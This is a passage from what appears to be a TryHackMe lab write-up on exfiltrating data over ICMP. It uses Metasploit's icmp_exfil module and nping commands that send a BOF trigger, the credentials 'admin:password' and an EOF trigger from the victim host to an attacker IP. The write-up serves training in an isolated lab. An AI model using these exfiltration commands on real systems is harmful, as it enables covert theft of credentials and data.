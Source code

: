     # run the module
    msf6 auxiliary(server/icmp_exfil) > run
    ```

    The `BPF_FILTER` option is used so it captures only ICMP packets, `set BPF_FILTER icmp`, and ignore any ICMP packets that have the source IP of the attacking machine, `and not src ATTACKER_IP`.

    We also need to select which network interface to listen to. We can see our network interfaces via the `ifconfig` command:

    ![ifconfig](ifconfig.png)

2. This room has prepared the `icmp.thm.com` machine as the victim for this task, so we can log into it via SSH (first connect to Jumpbox, and from Jumpbox connect to `icmp.thm.com`). This machine has the [NPING](https://nmap.org/nping/) tool installed, which is part of the **NMAP** suite.

    Once logged into the `icmp.thm.com`, we need to send the **BOF trigger** so that Metasploit starts writing to the disk. The **BOF trigger** defaults to "*^BOF*", followed by the filename being sent:

    ```shell
    # send the BOF trigger to the attacking machine
    thm@icmp-host:~$ sudo nping --icmp 10.10.106.32 --data-string "BOFfile.txt" -c 1 
    ```

3. Now that we initiated the disk writing process, we can sent the data we want to exfiltrate, for example, the credentials `admin:password`. Note that we sent the data without converting it to hex first, Metasploit did that for us:

    ```shell
    # send the data we want to exfiltrate to the attacking machine
    thm@icmp-host:~$ sudo nping --icmp 10.10.106.32 --data-string "admin:password" -c 1 
    ```

4. Finally, we need to send the **EOF trigger**, which defaults to "*^EOF*", to let Metasploit know that we have sent all the data we needed:

    ```shell
    # send the EOF trigger to the attacking machine
    thm@icmp-host:~$ sudo nping --icmp 10.10.106.32 --data-string "EOF" -c 1
    ```

The whole process can be shown below:

![Metasploit Data Exfiltration](metasploit-icmp-transfer.png)

We can check that the data is as it should be:

![Exfiltrated data](loot-file.png)
